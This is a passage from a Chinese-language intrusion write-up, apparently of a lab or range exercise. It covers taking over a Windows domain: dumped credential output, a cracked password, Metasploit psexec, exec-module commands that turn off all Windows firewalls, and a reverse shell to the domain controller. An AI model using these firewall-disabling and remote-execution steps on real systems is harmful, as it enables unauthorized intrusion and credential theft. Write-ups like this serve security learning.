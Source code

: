        wdigest:

        * Username : 12SERVER-EX13$

        * Domain  : CNCAT

        * Password : (null)

       kerberos:     

        * Username : 12server-ex13$

        * Domain  : CNCAT.CC

        * Password : (null)

       ssp:

       credman:     

解密 hash

QWEasd123

此时已经基本上 ok 了 就差最后一台的的域控了

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYG7191RiaSUQTicjoEhbHmaENMibw5sOyj4LGiaXydyzdP64mCYSQ2qfZiaQ/640?wx_fmt=png)

此时已经打穿三台了 域控的密码也有了

 此处大约卡了半个小时。。感谢佳哥的细心指导

Use windows/smb/psexec

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYhfGwtzSN4jMb7252SnaqKC1hKuFibjVPQJIckOCMyKuovBwgIURo7VQ/640?wx_fmt=png)

初次设置 弹不回来 分析发现 关闭防火墙即可 弹回来 但是不能手动去关啊。。

然后佳哥教导

windows/x64/exec

set cmd netsh firewall set opmode disable

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYeVnXhwbUd1ChrtdVGianibjCIUapyhmWrxWUZDgfeOW4mAuOmyr4oFYA/640?wx_fmt=png)

此条命令为关闭域防火墙

用这个关闭所有的防火墙

NetSh Advfirewall set allprofiles state off

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHY9u3f5K2UqpzliaDJNyFzwlcDVCvqyQVm8tHLst9c5oZzuiaoolI3Ktnw/640?wx_fmt=png)

然后反向连接

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHY6Zj0NDiaHib0VbicRu0cIbdvia8VuOMzPyrXWj8FmZH8TU2VGbgMyheX0Q/640?wx_fmt=png)

完事大吉

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYY3yHzjibOetzt0CzkhQCAoqDwd9s9oOvG0GpagV1pqGicebj8oiay5VSw/640?wx_fmt=png)